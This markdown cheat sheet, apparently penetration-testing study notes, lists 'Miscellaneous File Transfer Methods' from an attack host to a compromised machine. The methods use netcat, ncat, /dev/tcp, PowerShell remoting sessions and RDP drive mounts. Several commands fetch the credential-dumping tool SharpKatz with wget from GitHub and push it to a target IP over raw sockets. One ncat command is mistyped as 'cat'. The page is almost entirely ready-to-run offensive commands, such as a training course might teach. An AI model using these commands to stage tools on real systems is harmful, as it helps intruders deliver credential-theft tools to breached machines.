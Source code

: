 ```yaml
---
title: "Miscellaneous File Transfer Methods"
weight: 4
---
```

---

### Netcat

#### NetCat - Compromised Machine - Listening on Port 8000

```bash
nc -l -p 8000 > SharpKatz.exe
```

#### Netcat - Attack Host - Sending File to Compromised machine

```bash
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

#### Attack Host - Sending File as Input to Netcat

```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File

```bash
nc 192.168.49.128 443 > SharpKatz.exe
```

#### NetCat - Sending File as Input to Netcat

```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### Ncat

#### Ncat - Compromised Machine - Listening on Port 8000

```bash
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

#### Ncat - Attack Host - Sending File to Compromised machine

```bash
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

#### Attack Host - Sending File as Input to Ncat

```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File

```bash
 cat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

#### Ncat - Sending File as Input to Ncat

```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### PowerShell Session File Transfer

#### From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.

```cmd
PS C:\sam> whoami

sam\administrator

PS C:\sam> hostname

DC01

PS C:\sam> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True

```

#### Create a PowerShell Remoting Session to DATABASE01

```cmd
PS C:\sam> $Session = New-PSSession -ComputerName DATABASE01
```

#### Copy samplefile.txt from our Localhost to the DATABASE01 Session

```cmd
PS C:\sam> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

#### Copy DATABASE.txt from DATABASE01 Session to our Localhost

```cmd
PS C:\sam> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

### RDP

#### Mounting a Linux Folder Using rdesktop

```bash
rdesktop <ip> -d <domain> -u <user> -p '<pass>' -r disk:linux='<Folder>'
```

#### Mounting a Linux Folder Using xfreerdp

```bash
xfreerdp /v:<ip> /d:<domain> /u:<user> /p:'<pass>' /drive:linux,<folder>
```
> [!NOTE]
> To access the directory, we can connect to \\\tsclient\\, allowing us to transfer files to and from the RDP session.

